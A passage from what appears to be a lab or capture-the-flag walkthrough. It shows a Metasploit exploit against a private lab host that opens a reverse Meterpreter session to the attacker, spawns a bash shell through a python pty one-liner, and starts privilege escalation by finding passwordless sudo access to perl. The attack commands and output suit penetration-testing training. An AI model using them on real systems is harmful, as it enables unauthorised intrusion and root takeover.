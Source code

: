 Now that we have configured all of our options, the next step is to check if the
exploit will work. We simply run `check` and it will do all of the work for us.

```shell
msf > check
[*] 192.168.56.3:80 - The target appears to be vulnerable.
```

According to the module, this application is vulnerable. Now we can run our
exploit.

```shell
msf > exploit

[*] Started reverse TCP handler on 192.168.56.113:4444
[+] Authentication successful: touhid:diana
[*] Sending stage (39927 bytes) to 192.168.56.112
[*] Meterpreter session 1 opened (192.168.56.113:4444 -> 192.168.56.112:38565) at 2024-02-14 14:36:46 -0500
```

And now you should be given a meterpreter session, which is just a more advanced
remote control point. To get terminal access, we only need to type in
`shell`. To make it cleaner, we run a python command to spawn us a really nice
shell.

```shell
meterpreter > shell
> python3 -c 'import pty;pty.spawn("/bin/bash")'
$
```

> This will give you a nice shell but no tab completions, so be sure to spell correctly.

Looking at the shell given, we are running as the user "*www-data*". We have
completed step 1 of getting access to the machine. The next step is getting access
to root from here.

# Privilege Escalation

Now that we have access to the machine, we need to know all of the ways that we are
allowed to use root. We can check all the executables that we are allowed to run
as root with `sudo`.

```shell
sudo -l
```

Using `sudo -l`, we can list all of the binaries that we are allowed to run as
root.

```shell
$ sudo -l
Matching Defaults entries for www-data on this host:
    env_reset,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on this host:
    (ALL) NOPASSWD: /usr/bin/perl
```
